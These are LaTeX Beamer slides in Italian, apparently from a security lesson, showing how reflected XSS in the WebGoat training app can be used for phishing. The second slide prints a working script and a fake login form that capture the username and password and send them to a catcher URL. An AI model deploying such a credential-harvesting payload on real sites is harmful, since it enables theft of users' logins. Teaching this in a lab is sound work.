 \documentclass{beamer}
\newtheorem{myexample}{Esempio di Attacco}
\begin{document}
\begin{frame}
  \frametitle{Phishing 1/4}
  Phishing \`e una delle possibili applicazioni di un attacco XSS:
  \pause
  \begin{myexample}
    \begin{tiny}
      WebGoat fornisce una funzionalit\`a di ricerca all'interno del suo codice sorgente.
      \begin{center}
	\includegraphics[width=180pt]{images/xss_phishing_1.png}
      \end{center}
      Tale funzionalit\`a \`e vulnerabile ad attacchi XSS.
    \end{tiny}
  \end{myexample}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Phishing 2/4}
  \begin{myexample}
    \begin{tiny}
      Solleviamo un attacco Reflected XSS inserendo, nel campo di ricerca:
      \begin{semiverbatim}
<script>
 function hack(){ 
   alert("Had this been a real attack... 
          Your credentials were just stolen. 
          User Name = " + document.forms[0].user.value + 
          "Password = " + document.forms[0].pass.value); 
   XSSImage=new Image; 
   XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="
                + document.forms[0].user.value + "&password=" 
                + document.forms[0].pass.value + "";
 } 
</script>
<form><br><br><HR>
 <H3>This feature requires account login:</H3 >
 <br>
 <br>Enter Username:<br>
 <input type="text" id="user" name="user"><br>
 Enter Password:<br><input type="password" name = "pass"><br>
 <input type="submit" name="login" value="login" onclick="hack()">
 </form><br><br><HR>
      \end{semiverbatim}
    \end{tiny}
  \end{myexample}
\end{frame}
\end{document}
